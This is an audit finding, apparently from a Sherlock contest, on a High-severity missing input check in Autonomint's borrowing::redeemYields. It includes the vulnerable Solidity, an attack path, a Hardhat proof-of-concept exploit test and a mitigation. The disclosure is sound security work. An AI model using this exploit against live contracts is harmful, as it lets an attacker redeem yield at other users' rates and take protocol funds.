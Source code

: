 Dry Brown Cheetah

High

# Lack of input validation in `borrowing::redeemYields` allows anyone to redeem abond tokens as per someone else's `ethBacked` abond state

### Summary

The [`borrowing::redeemYields`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/borrowing.sol#L318) is used for redeeming the abond tokens back to ether as per the user's `ethBacked` state.
```solidity
    function redeemYields(
        address user,
        uint128 aBondAmount
    ) public returns (uint256) {
        // Call redeemYields function in Borrow Library
        return (
            BorrowLib.redeemYields(
                user,
                aBondAmount,
                address(usda),
                address(abond),
                address(treasury),
                address(this)
            )
        );
    }
```
 However, this function lacks enough input sanitation allowing anyone to burn their own abond tokens as per the `user` parameter's abond's `ethBacked` state.
 This allows attacker to redeem yield at a much higher rate.

### Root Cause

In [`borrowing.sol:318`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/borrowing.sol#L318), there are lack checks / incorrect implementations allowing passing the user address and burning abond tokens at someone else's `ethBacked`.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Consider User1 and User2 as a single attacker with two different addresses.
1. User1 acquires abond with a low `ethBacked` state, using the `borrow::withDraw` or someone transferring abond to him via `Abond_Token::transfer`.
2. User2 acquires abond with a high `ethBacked` state, using the `borrow::withDraw` or someone transferring abond to him via `Abond_Token::transfer`.
3. User1 calls the [`redeemYields`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/borrowing.sol#L318) by passing User2's address.
4. The abond tokens of User1 gets burned while withdrawing but the User2 gets ether as per User2's own `ethBacked` rate.


### Impact

1. Loss of funds by gaining a higher rate of redeeming by the attacker

### PoC

Add the following test case inside the `BorrowingTest.sol` file:
```typescript
    describe("Testing redeemYield Function", async () => {

        it("Should be able to withdraw someone else's abond tokens", async () => {
            const {BorrowingContractA,TokenA,globalVariablesA,usdtA,CDSContractA} = await loadFixture(deployer);
            const timeStamp = await time.latest();
            await usdtA.connect(user1).mint(user1.getAddress(),10000000000)
            await usdtA.connect(user1).approve(CDSContractA.getAddress(),10000000000);
        
            const options = Options.newOptions().addExecutorLzReceiveOption(400000, 0).toHex().toString()
            let nativeFee = 0
            ;[nativeFee] = await globalVariablesA.quote(1,0, options, false)
            await CDSContractA.connect(user1).deposit(10000000000,0,true,10000000000,100000, { value: nativeFee.toString()});
        
            const depositAmount = ethers.parseEther("1");
        
            await BorrowingContractA.connect(user1).depositTokens(
                100000,
                timeStamp,
                [2,
                110000,
                ethVolatility,1,
                depositAmount],
                {value: (depositAmount +  BigInt(nativeFee))})
        
            await BorrowingContractA.calculateCumulativeRate();
            await TokenA.mint(user1.getAddress(),80000000);
            await TokenA.connect(user1).approve(await BorrowingContractA.getAddress(),await TokenA.balanceOf(user1.getAddress()));
            const {odosData, odosSignData} = await calculateUpsideToSwap(
                (await treasuryA.getBorrowing(await user1.getAddress(), 1))[1],
                99900,
                1e18,
                ZeroAddress,
                await treasuryA.getAddress(),
                await BorrowingContractA.getAddress()
            )
            await BorrowingContractA.connect(user1).withDraw(
                await user1.getAddress(), 
                1,
                odosData,
                odosSignData,
                99900,
                timeStamp,
                {value: nativeFee});
            
        
            // transfer to user3
            await abondTokenA.connect(user1).transfer(
                await user3.getAddress(), 
                await abondTokenA.balanceOf(await user1.getAddress()) / 2n
            )

            let userState1 = await abondTokenA.userStates(await user1.getAddress());
            console.log("userState1", userState1);
        
            // Even though user3 has no abond tokens before, after transfer, user3 has the updated state whereas user1 state remains the same
            const userState3 = await abondTokenA.userStates(await user3.getAddress());
            console.log("userState3", userState3);
            
            // Let's try redeeming the user1's abond tokens
            // approve borrowing contract to spend user3's abond tokens
            await abondTokenA.connect(user3).approve(
                await BorrowingContractA.getAddress(), 
                await abondTokenA.balanceOf(await user3.getAddress())
            )
            // Assume that user1 and user3 are the same person just different addresses
            // Let's assume that user1 has a higher eth backed abond token than user3 for now (tests are too slow sorry :D)
            // User3 can redeem the abond tokens for user1 and get a higher rate for his abond tokens as the contract will use the user1's state while burning the abond tokens of user3
            // redeem the abond tokens
            await BorrowingContractA.connect(user3).redeemYields(
                await user1.getAddress(), 
                await abondTokenA.balanceOf(await user3.getAddress())
            )

            // check updated user states
            const userState1After = await abondTokenA.userStates(await user1.getAddress());
            console.log("userState1After", userState1After);
            // The state of user1 stays intact
            // userState1After Result(3) [
            //     1000000000000000000000000000n,
            //     5005005005005005n,
            //     49950000000000000000n
            //   ]
            const userState3After = await abondTokenA.userStates(await user3.getAddress());
            console.log("userState3After", userState3After);
            // User 3 burns his abond tokens and gets the yield as per the ethBacked state of user1 here.
            // userState3After Result(3) [ 0n, 0n, 0n ]
        });

    });
```

### Mitigation
It is recommended to allow only the `msg.sender` to redeem his own abond tokens.